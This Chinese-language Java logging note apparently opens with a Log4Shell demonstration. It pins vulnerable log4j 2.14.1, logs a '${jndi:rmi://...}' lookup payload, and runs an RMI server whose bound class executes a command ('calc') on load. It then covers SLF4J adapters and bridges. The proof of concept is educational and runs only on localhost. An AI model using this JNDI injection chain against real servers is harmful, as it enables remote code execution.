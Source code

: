 ### log4j漏洞演示

```xml
<!--使用log4j日志; <=2.14.1; >= 2.15.0修复-->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.1</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version>
</dependency>
```

```xml
<!--log4j2.xml-->
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="WARN">
	<!--全局参数-->
	<Properties>
		<Property name="pattern">log4j2: %d{yyyy-MM-dd HH:mm:ss} %5p [%t] - %m%n</Property>
	</Properties>
	<Loggers>
		<Root level="INFO">
			<AppenderRef ref="console"/>
		</Root>
	</Loggers>
	<Appenders>
		<!-- 定义输出到控制台 -->
		<Console name="console" target="SYSTEM_OUT" follow="true">
			<!--控制台只输出level及以上级别的信息-->
			<ThresholdFilter level="INFO" onMatch="ACCEPT" onMismatch="DENY"/>
			<PatternLayout>
				<Pattern>${pattern}</Pattern>
			</PatternLayout>
		</Console>
	</Appenders>
</Configuration>
```

```properties
# log4j.properties
log4j.rootLogger=DEBUG, stdout
log4j.appender.stdout.Target = System.out
log4j.appender.stdout=org.apache.log4j.ConsoleAppender
log4j.appender.stdout.layout=org.apache.log4j.PatternLayout
log4j.appender.stdout.layout.ConversionPattern=%5p [%t] - %m%n
```

```java
package cn.qingweico;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

/**
 * -Dlog4j2.formatMsgNoLookups=true
 * @author zqw
 * @date 2022/3/13
 */
public class LogTest {
    private static final Logger logger = LogManager.getLogger("log4j");
    public static void main(String[] args) {
        String username="${java:os}";
        logger.info("Hello, {}",username);
    }
}

```

```xml
<!--使用slf4j日志-->
<!--slf4j适配log4j2-->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-slf4j-impl</artifactId>
    <version>2.12.1</version>
</dependency>
```

```java
package cn.qingweico;

import org.slf4j.Logger;
import org.slf4j.LoggerFactory;

/**
 * @author zqw
 * @date 2022/3/13
 */
public class LogTest {
    private static  final Logger logger = LoggerFactory.getLogger("slf4j");
    public static void main(String[] args) {
        String username="${jndi:rmi://127.0.0.1:8080/lookup}";
        logger.info("Hello, {}",username);
    }
}
```

```java
package cn.qingweico;

import java.io.IOException;

/**
 * @author zqw
 * @date 2022/3/13
 */
public class Look {
   static {
      try {
         Runtime.getRuntime().exec("calc");
      } catch (IOException e) {
         e.printStackTrace();
      }
   }
}
```

```java
package cn.qingweico;


import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * @author zqw
 * @date 2022/3/13
 */
public class RmiServer {
   public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
      Registry registry = LocateRegistry.createRegistry(8080);
      registry.bind("lookup", new ReferenceWrapper(new Reference(
              null, "cn.qingweico.Look", null
      )));
   }
}
```

### 日志适配和桥接

```xml
<!--jcl -->
<dependency>
    <groupId>commons-logging</groupId>
    <artifactId>commons-logging</artifactId>
    <version>1.2</version>
</dependency>
<!--log4j-->
<dependency>
    <groupId>log4j</groupId>
    <artifactId>log4j</artifactId>
    <version>1.2.17</version>
</dependency>
<!--slf4j -->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-api</artifactId>
    <version>1.7.25</version>
</dependency>
```

```xml
<!--slf4j适配log4j1.x -->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-log4j12</artifactId>
    <version>1.7.25</version>
</dependency>
<!--slf4j适配log4j2-->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-slf4j-impl</artifactId>
    <version>2.12.1</version>
</dependency>
<!--slf4j适配jcl-->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-jcl</artifactId>
    <version>1.7.25</version>
</dependency>
<!--log4j 桥接到 slf4j-->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>log4j-over-slf4j</artifactId>
    <version>1.7.25</version>
</dependency>
```

| 名称              | jar包                                         | 描述                             |
| ----------------- | --------------------------------------------- | -------------------------------- |
| log4j             | log4j-xxx.jar                                 | 早期常用日志组件                 |
| logback           | logback-core、logback-classic、logback-access | 一套日志组件的实现 性能优于log4j |
| log4j2            | log4j、log4-api 、log4j-core                  | apache 开发的一款log4j的升级产品 |
| java.util.logging | jdk                                           | Java 1.4 以来的官方日志实现      |

适配器

![Java日志 (1)](https://cdn.qingweico.cn/blog/Java%E6%97%A5%E5%BF%97%20(1).png)

桥接器

![Java日志](https://cdn.qingweico.cn/blog/Java%E6%97%A5%E5%BF%97.png)